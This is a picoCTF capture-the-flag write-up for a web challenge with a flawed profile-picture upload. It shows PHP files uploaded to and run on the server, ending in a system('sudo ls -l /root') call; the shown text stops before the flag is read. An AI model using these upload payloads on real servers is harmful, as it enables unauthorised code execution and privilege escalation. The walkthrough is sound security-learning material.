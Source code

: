 ```yaml
---
tags:
    - picoCTF
    - web-exploitation
---
```


# No Sanity


A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.

## Reading the challenge hints

- no sanity; likely no input sanitisation
- focus is the upload functionality
- difficulty of the cahllenge is basic; so look for web exploits
- process given
    1. locate file upload area
    1. Find flag in `/root`

## Research

- [bing search](https://letmegooglethat.com/?q=web+hacking+file+uploads+not+sanisiting)
- [likely hit](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)

So maybe the site may not check file upload type, and allow us to upload executable content to the server

!!! note "Security practice tip!"

    A secure web server will check file extension and file type and block unapproved types!.

## Testing the idea

### Test a file upload of a txt file

Create a php file to test our theory

```php
<?php
// Get the current working directory
$currentDirectory = getcwd();
// Display the current working directory
echo "The present working directory is: " . $currentDirectory;
?>
```

Response looks good! `The file cwd.php has been uploaded Path: uploads/cwd.php`



Now browse there...

Success!

So we have:

```mermaid
sequenceDiagram
    client->>server: uploads file
    server->>client: ok, and heres where it went!
    client-)server: can i see my file pls?
    server-->>client: sure!
    server-->>client: its executable, ok i will execute it...
    server->>client: here's my response

```

## Now can we just list /root?

Lets mak a php script to list a directory; from bing ai code generator:

```php
<?php
$directory = '/root';
foreach (new DirectoryIterator($directory) as $fileInfo) {
    if (!$fileInfo->isDot()) {
        echo $fileInfo->getFilename() . PHP_EOL;
    }
}
?>
```

Hmm, no permissions

## Ok sudo list me root

Lets try this as a system call. 

!!! note "Security practice tip!"

    A secure web server will block system calls in the php config.

```php
<?php
system('sudo ls -l /root'); // Replace 'ls -l' with your desired command
?>
```

Success!

Ok now try and get the contents of the flag!